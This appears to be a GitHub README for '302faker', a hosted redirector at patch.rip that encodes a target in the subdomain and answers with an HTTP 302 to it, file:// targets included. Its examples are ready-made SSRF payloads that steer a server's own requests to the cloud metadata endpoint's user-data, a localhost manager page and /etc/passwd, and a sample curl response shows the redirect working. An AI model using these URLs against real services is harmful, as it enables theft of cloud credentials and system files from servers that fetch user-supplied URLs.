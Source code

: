 # 302faker

A Simple HTTP 302 Location-Header redirector with `file://` support.

### Usage: 

`curl http://patch.rip/t/302/http`


A Simple 302 Location redirector that redirects to the netloc part with some tricks:




`curl -I https://redirect_me__dev___etc___passwd.patch.rip/t/302/http`

```
    HTTP/2 302 
    date: Wed, 05 Oct 2022 11:26:41 GMT
    content-type: text/plain
    content-length: 33
    location: https://redirect_me.dev/etc/passwd
    fn-call-id: 01GEKY95TJNG8G010ZJ000001K
    x-served-by: redirect_me__dev___etc___passwd.patch.rip
    cf-cache-status: DYNAMIC
    report-to: {"endpoints":[{"url":"https:\/\/a.nel.cloudflare.com\/report\/v3?s=kSsgESvJJWwWoAuAW%2BAac6Z8JA1T9m26ucscfUbc5vAmwU7UU34oSQmmgQC0OBUttwJF1g9PTMRYd9ROZaN8%2F8Vyw3VOwhNP0nNYoc0adaHFgE88UCg6vPT0YAjrZYDYM7YQy05Rqwz23FxpwFdYQPFS0ca6MebVBTo7IQ%3D%3D"}],"group":"cf-nel","max_age":604800}
    nel: {"success_fraction":0,"report_to":"cf-nel","max_age":604800}
    server: cloudflare
    cf-ray: 7555cdbd289d3762-MXP
    alt-svc: h3=":443"; ma=86400, h3-29=":443"; ma=86400
``` 

Following replacements take place:

- redirect = redirect.replace('___', '/')
- redirect = redirect.replace('__', '.')

If you want to redirect to plain `http://` start with prepend `_`
Finally, starting with `__` will use `file://` as handler

Examples:

- http(s)://_169__254__169__254___latest___user-data.patch.rip/t/302/http
- http(s)://_localhost___manager___html.patch.rip/t/302/http
- https(s)://___etc___passwd.patch.rip/t/302/http


Made with 🤬 in 🇩🇪
